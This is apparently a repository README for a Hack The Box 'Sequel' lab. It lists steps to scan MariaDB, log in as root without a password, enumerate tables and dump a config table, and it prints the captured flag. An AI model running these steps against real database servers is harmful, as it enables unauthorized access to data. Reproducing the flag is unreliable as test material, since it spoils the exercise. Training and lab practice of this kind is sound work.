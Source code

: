 # HTB “Sequel” MariaDB Exploit

Directly access the MariaDB service on the Sequel machine to enumerate and retrieve the flag.

## Quick Start

```
git clone https://github.com/keyfive5/obsidiansignal-htb-sequel.git
cd obsidiansignal-htb-sequel
bash scripts/enum-mysql.sh 10.129.28.113
```

# Prerequisites
mysql-client (MariaDB or MySQL)

HTB VPN connection

# Repo Layout
writeup/ – Markdown & PDF report

scripts/enum-mysql.sh – Bash automation

screenshots/ – proof of each step

articles/ – Dev.to markdown

# Lab Steps
1. Scan: nmap -sC -sV -p3306 $IP
2. Connect: mysql --ssl -h $IP -u root --skip-ssl
3. Enumerate:
```
SHOW DATABASES;
USE htb;
SHOW TABLES;
SELECT * FROM config;
```
4. Flag: 7b4bec00d1a39e3dd4e021ec3d915da8

# Connect

Dev.to: https://dev.to/keyfive5

Twitter: https://twitter.com/keyfive5

LinkedIn: [Linkedin](https://www.linkedin.com/in/mz-cs/)

“Looking for paid DB pentests or cloud‑infra security engagements? Let’s chat!”

